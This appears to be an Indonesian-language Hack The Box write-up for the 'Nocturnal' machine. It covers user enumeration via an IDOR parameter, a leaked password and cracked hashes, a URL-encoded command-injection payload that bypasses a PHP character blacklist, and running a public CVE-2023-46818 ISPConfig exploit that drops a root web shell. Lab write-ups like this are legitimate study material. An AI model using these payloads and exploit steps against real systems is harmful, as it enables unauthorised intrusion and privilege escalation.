 ```yaml
---
layout: post
title: "HTB Writeup – Nocturnal"
date: 2025-04-13
image: /assets/machine/nocturnal/nocturnal.jpg
tags: [htb, linux, web]
excerpt: "Scanning port terlebih dahulu..."
---
```


<center>
<img src="/assets/machine/nocturnal/nocturnal.jpg" class="img-post" />
</center>

# RECON

## Port Scan

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Welcome to Nocturnal
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web

<center>
  <img src="/assets/machine/nocturnal/webnoc.jpg" class="img-post" />
</center>

Disini kita register lalu upload sembarangan file, dan lihat intercept burpsuite.

```bash
GET /view.php?username=hades&file=file.pdf HTTP/1.1
Host: nocturnal.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nocturnal.htb/dashboard.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=3if78g1uefu5ld57otpvgst9k5
Connection: keep-alive
```

Lihat di endpoint nya. Lalu kita Fuzz untuk melihat user apa saja yang ada.


# User

```bash
$ ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=file.pdf' -w ../Desktop/fuzzDicts/userNameDict/user.txt -H 'Cookie: PHPSESSID=3if78g1uefu5ld57otpvgst9k5'  -fs 2985

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=2023.xlsx
 :: Wordlist         : FUZZ: /home/hadespwnme/Desktop/fuzzDicts/userNameDict/user.txt
 :: Header           : Cookie: PHPSESSID=k381a2of6lftuk6gnab5f5sapa
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2985
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 72ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 70ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 69ms]
:: Progress: [8886/8886] :: Job [1/1] :: 335 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

Kita cek satu persatu ternyata **admin** dan **tobias** tidak memiliki file, sedangkan user dengan nama **amanda** terdapat file yang bernama **privacy.odt**.

```
Dear Amanda,
Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.
The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.
Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.

Yours sincerely,
Nocturnal's IT team
```

Kita bisa login ke backend menggunakan kredensial yang tersedia di surat.

Buat backup menggunakan password tadi, lalu kita bisa lihat ada **nocturnal_database.db**.

Download lalu Unzip, dan gunakan *Amanda* password.

```sql
(1,'admin','d725aeba143f575736b07e045d8ceebb');
(2,'amanda','df8b20aa0c935023f99ea58358fb63c4');
(4,'tobias','55c82b1ccd55ab219b3b109b07d5061d');
(6,'kavi','f38cde1654b39fea2bd4f72f1ae4cdda');
(7,'e0Al5','101ad4543a96a7fd84908fd0d802e7db');
```

Crack hash tobias (karena tadi kita sudah tahu ada user apa saja, jadi coba terlebih dahulu, atau bisa gunakan md5 crack untuk langsung crack semua hash) diatas menggunakan *john*.

Login ssh dengan kredensial yang sudah kita dapat. Dan **Get The User Flag**.


## After Update

Setelah update, file database gak ada lagi, jadi kita bisa review code **admin.php**.

```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}

<?php
if (isset($_POST['backup']) && !empty($_POST['password'])) {
    $password = cleanEntry($_POST['password']);
    $backupFile = "backups/backup_" . date('Y-m-d') . ".zip";

    if ($password === false) {
        echo "<div class='error-message'>Error: Try another password.</div>";
    } else {
        $logFile = '/tmp/backup_' . uniqid() . '.log';
       
        $command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
        
        $descriptor_spec = [
            0 => ["pipe", "r"], // stdin
            1 => ["file", $logFile, "w"], // stdout
            2 => ["file", $logFile, "w"], // stderr
        ];

        $process = proc_open($command, $descriptor_spec, $pipes);
        if (is_resource($process)) {
            proc_close($process);
        }

        sleep(2);

        $logContents = file_get_contents($logFile);
        if (strpos($logContents, 'zip error') === false) {
            echo "<div class='backup-success'>";
            echo "<p>Backup created successfully.</p>";
            echo "<a href='"a . htmlspecialchars($backupFile) . "' class='download-button' download>Download Backup</a>";
            echo "<h3>Output:</h3><pre>" . htmlspecialchars($logContents) . "</pre>";
            echo "</div>";
        } else {
            echo "<div class='error-message'>Error creating the backup.</div>";
        }

        unlink($logFile);
    }
}
?>
```

Dan kita bisa gunakan bypass dengan teknik url encoding.

```
POST /admin.php?view=dashboard.php HTTP/1.1
Host: nocturnal.htb
Content-Length: 108
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://nocturnal.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nocturnal.htb/admin.php?view=dashboard.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=eijjmosqk4m5ggpfg3fa7uosru
Connection: keep-alive

password=%0Abash%09-c%09"whoami"%0A&backup=
```

Dari sini kita bisa upload *revshell* dan mendapatkan file database.

# Root

Cek port yang terbuka.

```bash
tobias@nocturnal:~$ netstat -tupln
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                  
```

Terdapat port 8080 yang dapat kita tunnel.

Dan kita mendapatkan ISPConfig service.

<center>
  <img src="/assets/machine/nocturnal/ispconfig.png" class="img-post" />
</center>

## CVE-2023-46818

Kita bisa login menggunakan kredensial Tobias. Di panel *Help* kita bisa tau kalau versinya adalah **3.2**.

Setelah mencari kita dapat menggunakan POC [CVE-2023-46818](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)

```bash
$ python3 exploit.py http://127.0.0.1:8080 admin slowmotionapocalypse

[+] Logging in as 'admin'
[+] Login successful.
[+] Injecting PHP shell...
[+] Shell dropped at 'sh.php'
[+] Web shell ready. Type commands below. Ctrl+C or 'exit' to quit.

ispconfig-shell# id
uid=0(root) gid=0(root) groups=0(root)
```

Rooted